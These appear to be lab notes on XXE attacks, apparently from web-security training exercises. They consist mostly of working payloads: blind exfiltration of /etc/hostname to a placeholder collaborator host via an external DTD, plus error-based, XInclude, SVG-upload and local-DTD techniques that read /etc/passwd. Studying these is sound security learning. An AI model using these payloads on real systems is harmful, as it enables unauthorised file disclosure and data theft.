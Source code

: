     /etc/hostname
    exploit server
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL(EXPLOIT_SERVER)"> %xxe;]>
```
external entity definition in between XML declaration `stockCheck`

---

**Exploiting blind XXE to retrieve data via error messages**

    /etc/passwd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL(EXPLOIT_SERVER)"> %xxe;]>
```
external entity definition in between XML declaration `stockCheck`

---
**Exploiting XInclude to retrieve files**
```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
---

**Exploiting XXE via image file upload**

    /etc/hostname
    comment with upload avatar
```svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
1. post on any blog post
---

**Exploiting XXE to retrieve data by repurposing a local DTD** !EX

    /etc/passwd
    Check stock
```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
between declaration and `stockCheck`
